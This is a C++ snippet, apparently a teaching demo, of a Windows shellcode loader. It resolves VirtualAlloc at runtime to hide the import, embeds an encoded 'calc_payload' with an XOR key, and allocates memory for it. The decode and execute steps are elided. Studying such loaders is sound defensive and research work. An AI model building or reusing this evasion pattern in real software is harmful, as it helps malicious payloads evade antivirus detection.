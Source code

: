 
```c++

typedef LPVOID(WINAPI* VirtualAlloc_t)(LPVOID lpAddress, SIZE_T dwSize,
	DWORD flAllocationType, DWORD flProtect);



int main(void)
{

	VirtualAlloc_t pVirtualAlloc = (VirtualAlloc_t)GetProcAddress(GetModuleHandle(L"KERNEL32.DLL"), "VirtualAlloc");


	
	unsigned char calc_payload[] = { 0x42, 0x24, 0x1a, 0x21, 0x56, 0x22, 0x21, 0x1b, 0x1c, 0x24, 0x38, 0x2c, 0x20, 0x36, 0x23, 0x31, 0x23, 0x33, 0x36, 0x38, 0x30, 0x2f, 0x37, 0x28, 0x3e, 0x1, 0x29, 0x1e, 0x36, 0x3d, 0x1f, 0x36, 0x20, 0x28, 0x8, 0x3f, 0x30, 0xb, 0x1a, 0x2c, 0x1d, 0x5a, 0x2c, 0x1e, 0x3e, 0x28, 0x7, 0x1c, 0x36, 0x37, 0x2, 0x24,
0x1f, 0x55, 0x9, 0x26, 0x35, 0x27, 0x2d, 0x29, 0x21, 0x21, 0x3c, 0x2a, 0x17, 0x3d, 0x15, 0x9, 0x15, 0x24, 0x2a, 0x1, 0x2c, 0x31, 0x23, 0x27, 0x0, 0x3c, 0x50, 0x31, 0x24, 0x0, 0x3a, 0xc, 0x43, 0x3d, 0x2f, 0x3b, 0x38, 0x34, 0x1a, 0x29, 0x36, 0x1b, 0x26, 0x38, 0x3a, 0xf, 0x1, 0x24, 0x20, 0x17, 0x26, 0x2f, 0x15, 0x2c, 0x13, 0x2a, 0x24, 0x38, 0x2f, 0x28, 0x1b, 0x6, 0x21, 0x42, 0x3f, 0x44, 0xc, 0x27, 0x49, 0x2b, 0x22, 0x3f, 0x36, 0x21, 0x1a, 0x20, 0x1d, 0x5b, 0x24, 0x1e, 0x3e, 0x30, 0x3b, 0x34, 0x57, 0x43, 0x3f, 0x3d, 0x44, 0x5d, 0x15, 0x2f, 0x8, 0x9, 0x36, 0x2a, 0x21, 0x24, 0x3c, 0x3c, 0x31, 0x2d, 0x25, 0x2b, 0x20,
0x21, 0x2b, 0x33, 0x17, 0x31, 0x23, 0x27, 0x0, 0x3c, 0x50, 0x31, 0x24, 0x0, 0x37, 0x51, 0x40, 0x23, 0x3d, 0x1, 0x39, 0x20, 0x3d, 0x28, 0x29, 0x33, 0xd, 0x32, 0x24, 0x1, 0x3f, 0x5c, 0x53, 0x35, 0xd, 0x26, 0x1b, 0x55, 0x35, 0x0, 0x36, 0x28, 0x25, 0x30, 0x29, 0xe, 0x24, 0x3e, 0x21, 0x31, 0x3, 0x20, 0x10, 0x5d,
0x20, 0x10, 0x36, 0x32, 0x3a, 0x34, 0x25, 0x32, 0x16, 0x3c, 0x4, 0x24, 0x14, 0x27, 0x53, 0x37, 0x23, 0x2d, 0x3a, 0x33, 0x11, 0x8, 0x36, 0x25, 0x15, 0x21, 0x25, 0x20, 0x32, 0x31, 0x34, 0x2f, 0x1d, 0x28, 0x14, 0x4e, 0x14, 0x15, 0x34, 0x22, 0x27, 0x4a, 0x4d, 0x2b, 0x9, 0x31, 0x32, 0x35, 0x2, 0x2c, 0x1d, 0x13, 0x29, 0x9, 0x3b, 0x4e, 0x5c, 0x4a, 0x4c, 0x43, 0x54, 0x3d, 0x1e, 0x2, 0x3c, 0x2c, 0x20, 0x32, 0x24, 0x22, 0x33, 0x24, 0x35, 0x2a, 0x36, 0x30, 0x5f, 0x2f, 0x32, 0x34, 0x26, 0x33, 0x24, 0x31, 0x2c, 0x53, 0x34, 0x34, 0x15, 0x5, 0xd, 0x4c, 0x5d, 0x33, 0x1, 0x44, 0x26, 0x48, 0x2, 0xd, 0x29, 0x27, 0x16, 0x3, 0x4, 0x22, 0x1d, 0x3f, 0x4a, 0x42, 0x50, 0x26, 0xc, 0x27, 0xa, 0x26, 0x13, 0x53, 0x27, 0x17, 0x1a, 0x2a, 0x14, 0x35, 0x15, 0x15, 0x1, 0x25, 0x3c, 0x52, 0x2b, 0x15, 0x2f, 0xa, 0x7, 0x51, 0x1d, 0x24, 0x23, 0x3e, 0x22, 0x33, 0x5f, 0x17, 0x5c, 0x33, 0x3a, 0x40, 0x23, 0x7, 0x32, 0x1c, 0x4c, 0x1, 0x4, 0x34, 0x30, 0x22 };
	unsigned int calc_len = sizeof(calc_payload);
	char key[] = "masecretkey";


	printf("\nHit me 1nd - Before VirtualAlloc!\n");
	getchar();
	
	exec_mem = pVirtualAlloc(0, calc_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	

	printf("\nHit me 2st - After VirtualAlloc!\n");
	getchar();

	...


	...
	
	printf("Bye !\n");
	return 0;
}
```
